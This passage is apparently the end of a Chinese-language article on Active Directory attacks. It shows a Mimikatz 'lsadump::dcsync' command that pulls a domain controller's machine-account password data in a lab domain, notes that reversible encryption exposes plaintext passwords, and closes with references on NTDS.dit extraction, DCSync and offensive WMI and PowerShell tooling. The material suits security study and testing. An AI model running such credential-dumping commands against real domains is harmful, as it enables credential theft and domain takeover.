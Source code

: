 拉取 lab.adsecurity.org 域中 ADSDC03 域控制器的计算机帐户的密码数据：

```
Mimikatz "privilege::debug" "lsadump::dcsync /domain:lab.adsecurity.org /user:adsdc03$" exit

```

![p13](http://drops.javaweb.org/uploads/images/b85221e45ba3efbde39adc0df6175b9826350ed8.jpg)

如果帐户启用了 “可逆加密”，则会显示明文密码。

![p14](http://drops.javaweb.org/uploads/images/195b9d96cf66789d1203b92b0de9869bb1cc9f89.jpg)

0x0C 参考及引用
=====

*   [Sean Metcalf’s Presentations on Active Directory Security](https://adsecurity.org/?page_id=1352)
*   [How Attackers Pull the Active Directory Database (NTDS.dit) from a Domain Controller](https://adsecurity.org/?p=451)
*   [Attack Methods for Gaining Domain Admin Rights in Active Directory](https://adsecurity.org/?p=2362)
*   [Mimikatz DCSync Usage, Exploitation, and Detection](https://adsecurity.org/?p=1729)
*   [Dump Clear-Text Passwords for All Admins in the Domain Using Mimikatz DCSync](https://adsecurity.org/?p=2053)
*   [Mimikatz Guide and Command Reference](https://adsecurity.org/?page_id=1821)
*   Matt Graeber presented on leveraging WMI for offensive purposes at Black Hat USA 2015 ([paper](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf),[slides](https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor.pdf), and[video](https://www.youtube.com/watch?v=pqth74Uzxy4)). Matt also spoke at DEF CON 23 (video) with colleagues and dove further into offensive WMI capability (and again at DerbyCon –[video](https://www.youtube.com/watch?v=3UZ3Afm5hO4))
*   [PowerShellMafia’s PowerSploit offensive PowerShell tools on Github](https://github.com/PowerShellMafia/PowerSploit)
*   Joe Bialek’s ([@JosephBialek](https://twitter.com/JosephBialek))[his blog post about Invoke-NinjaCopy](https://clymb3r.wordpress.com/2013/06/13/using-powershell-to-copy-ntds-dit-registry-hives-bypass-sacls-dacls-file-locks/)
*   [DIT Snapshot Viewer](https://github.com/yosqueoy/ditsnap)